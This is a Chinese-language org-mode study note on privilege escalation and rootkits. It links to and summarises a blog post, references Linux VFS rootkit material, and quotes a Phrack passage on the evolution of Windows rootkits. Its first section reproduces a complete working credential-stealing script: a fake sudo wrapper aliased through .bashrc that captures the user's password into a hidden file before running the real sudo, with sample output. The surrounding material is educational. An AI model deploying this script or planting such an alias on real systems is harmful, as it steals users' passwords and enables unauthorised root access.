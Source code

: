  ** [[http://turbochaos.blogspot.jp/2013/11/ghetto-privilege-escalation-with-bashrc.html?view%3Dsidebar][Ghetto Privilege Escalation With .bashrc]]
    好猥琐的手法。开始看作者其他的文章，一个人不可能一下子这么牛逼的。
    首先将下面脚本保存成fake-sudo.sh。命令行"chmod +x fake-sudo.sh"加上执行权限。
    在.bashrc加上"alias sudo="/location/to/fake-sudo.sh"。 
#+begin_example
#!/bin/bash
    if [ ! -f .chak ]; then                       #如不存在.chak文件
         echo -n "[sudo] password for `whoami`: ";    #现实要求输入密码
          stty -echo;                                  #关闭回显
           read password;                               #读取密码，保存到变量password
            stty echo;                                   #打开回显
             echo -e $password > .chak;                   #将密码保存,-e:enable backslash escapes,测试无效果。
              echo ""
               sleep 2
                echo "Sorry, try again";
                fi
                string="/bin/sudo"                            #$#：添加到shell中的参数个数
                while test $# -gt 0; do
                     string+=" $1";                               #添加$1
                      shift;                                       #命令参数左移，$3-->$2,$2-->$1,$1消失，$0保持不变。
                      done
                      $string                                       #执行命令
#+end_example

                      然后等下次作者sudo的时候，最后的结果：
                      : ➜  ~  sudo yum search ssh
                      : [sudo] password for ice: 
                      : Sorry, try again
                      : [sudo] password for ice: 
                      然后.chak文件将保存你输入的密码。
                      最后尝试下su命令不能写出对应的版本，因为su如果输入错误直接认证失败了，除非钩住登陆的方法。
                      ** VFS
                      [[http://security.tencent.com/index.php/opensource/detail/16][Linux Rootkit (vfs hook) 隐藏进程检测工具]]
                      [[http://staronmytop.blog.51cto.com/6366057/1119475][Linux下的RootKit简单介绍与分析]]
                      [[http://pages.cpsc.ucalgary.ca/~crwth/programming/VFS/VFS.php][How to write a Linux VFS filesystem module]]
                      * windows rootkits
                      ** [[http://www.phrack.org/issues/63/8.html][Raising The Bar For Windows Rootkit Detection]]
                         总结windows rootkit的演变历史。
#+begin_example
                         First generation rootkits were primitive.  They simply replaced /
                         modified key system files on the victim's system.  The UNIX login
                         program was a common target and involved an attacker replacing the
                         original binary with a maliciously enhanced version that logged user
                         passwords.  Because these early rootkit modifications were limited to
                         system files on disk, they motivated the development of file system
                         integrity checkers such as Tripwire [1].

                         In response, rootkit developers moved their modifications off disk to
                         the memory images of the loaded programs and, again, evaded
                         detection. These 'second' generation rootkits were primarily based
                         upon hooking techniques that altered the execution path by making
                         memory patches to loaded applications and some operating system
                         components such as the system call table. Although much stealthier,
                         such modifications remained detectable by searching for heuristic
                         abnormalities. For example, it is suspicious for the system service
                         table to contain pointers that do not point to the operating system
                         kernel. This is the technique used by VICE [2].
